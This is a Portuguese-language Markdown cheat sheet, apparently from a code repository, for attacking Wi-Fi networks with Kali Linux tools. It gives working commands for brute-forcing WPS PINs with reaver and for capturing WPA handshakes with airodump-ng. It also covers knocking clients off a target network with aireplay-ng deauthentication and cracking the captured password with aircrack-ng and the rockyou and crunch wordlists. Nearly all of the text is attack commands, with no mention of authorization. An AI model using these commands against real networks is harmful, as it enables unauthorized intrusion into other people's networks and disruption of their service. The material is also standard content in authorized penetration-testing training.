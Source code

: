 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `wash -i wlan0mon` - Ativa descoberta de redes disponivel na interface wlan0mon
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00 -vv` - Inicie o reaver inserindo interface, canal e bssid da rede alvo
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Reavear com parâmetros de intervalo opcional

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `airodump-ng wlan0mon` - Usado para descoberta de redes disponivel na interface wlan0mon
* `wash -i wlan0mon` - Usado para descoberta de redes disponivel na interface wlan0mon em realação ao WPS
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura da rede alvo 
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Em outro terminal com modo de captura rodando execute para derrubar a rede alvo
* Ao retornar ao terminal de captura verifique se houve captura do pacote se for exibido a mensagem "WPA handshake"
* Com pacote com a senha capturado devemos usar Wordlists para tentar quebrar a senha
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo de wordlist deletando o arquivo zipado
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou para senhas WPA/WPA2 (8-63 caracteres)

### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch
*  lowUP123 @% # (letras minúsculas, letras maiúsculas, números e símbolos) - Ordem de Charset no Crunch
* Principais parâmetros do crunch:
    * -b: Tamanho máximo da lista de palavras (requer -o START)
    * -c: números de linhas para escrever na lista de palavras (requer -o START)
    * -d: limita o número de caracteres duplicados
    * -e: para de gerar palavras em um determinado string
    * -f: especifica uma lista de conjuntos de caracteres do arquivo charset.lst
    * -i: inverte a ordem dos caracteres na lista de palavras
    * -l: permite a interpretação literal de @,% ^ ao usar -t
    * -o: o arquivo de lista de saída
    * -p: imprime permutações sem repetir caracteres (não pode ser usado com -s)
    * -q: Como a opção -p, exceto a leitura das sequências de um arquivo especificado
    * -r: retoma uma sessão anterior (não pode ser usada com -s)
    * -s : especifique uma string específica para iniciar a lista de palavras com
    * -t: define um padrão específico de @,% ^
    * -z: comprime o arquivo da lista de saída, acompanhado de -o
 * Refência do crunch:
    * @ representa letras minúsculas
    * , representa letras maiúsculas
    * % representa números
    * ^ representa caracteres especiais
 * `crunch 4 6 1234567890 -o /root/numerica6-8.txt` - Exemplo de geração de lista
 * `crunch 9 9 1234567890 -t maria@@@@ -o /tmp/wordlist-maria.txt` - Exemplo de geração de lista
 * Charset.lst: /usr/share/crunch/charset.lst
    * Conjunto de caracteres disponíveis no charset.lst:
      * lalpha: apenas letras minúsculas
      * ualpha: apenas letras maiúsculas
      * lalpha-numeric: letras minúsculas e números
      * ualpha-numeric: letras maiúsculas e números
      * lalpha-numeric-all-space: letras minúsculas, números e caracteres especiais como ?, ;, :, espaço, etc.;
      * ualpha-numeric-all-space: letras maiúsculas, números e caracteres especiais como ?, ;, :, espaço, etc.;
      * mixalpha: letras minúsculas e maiúsculas;
      * mixalpha-numeric-all-space: letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 
* `crunch 4 8 -f charset.lst mixalpha -o /root/lista-com-charset.txt` - Exemplo de geração de lista
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o /root/wordlist-gigante.txt` - Exemplo de geração de lista
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o /root/thekingwordlist4-4.txt` - Exemplo de geração de lista
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:1D:AA:9D:27:AC -w- 'root/handshakes/Cafelocuraceb-00:1D:AA:9D:27:AC.cap` - Exemplo de geração
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/
https://nsworld.com.br/crunch-gerador-de-wordlist/  


